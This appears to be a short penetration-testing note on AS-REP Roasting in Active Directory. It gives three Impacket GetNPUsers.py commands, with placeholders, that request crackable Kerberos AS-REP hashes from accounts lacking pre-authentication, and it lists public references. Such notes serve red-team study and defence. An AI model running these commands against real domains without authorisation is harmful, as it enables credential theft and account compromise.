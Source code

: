 # Unix Shell

## 01 - Conditions

Same exact approach like for the ServicePrincipalName for Kerberoasting as the same as the following two conditions for it. However, the only different in different hash encryption since we are ASREPRoasting (refer to [[Tactics && Techniques && Procedures (TTPs) Phases/C - Initial Access/Password Cracking/Offline/JTR#^0c9a3c|JTR]] or [[Hashcat#^6d0af5|Hashcat]] section **under Offline Password Cracking**).

## 02 - Impacket

Request a Kerberos 5, etype 23, AS-REP hash from an NP user account.

```
$ GetNPUsers.py -request -dc-ip <IP> <domain>/<username>:"<password>"

$ GetNPUsers.py -request -dc-ip <IP> <domain>/<username> -hashes :<nt_hash>

$ GetNPUsers.py -request -dc-ip <IP> <domain> -usersfile users.lst
```

---
## References

- [Hacking Articles: ASREPRoasting](https://www.hackingarticles.in/as-rep-roasting/)

- [Hacking Articles: Abusing Kerberos Using Impacket](https://www.hackingarticles.in/abusing-kerberos-using-impacket/)

- [Pentestlab Blog: AS-REP Roasting](https://pentestlab.blog/2024/02/20/as-rep-roasting/)

- [Hacktricks Active Directory Methodology ASREPRoast](https://book.hacktricks.xyz/windows/active-directory-methodology/asreproast)

- [XPNSec: Kerberos AD Attacks - More Roasting with AS-REP](https://blog.xpnsec.com/kerberos-attacks-part-2/)

- [Hashcat example hashes](https://hashcat.net/wiki/doku.php?id=example_hashes)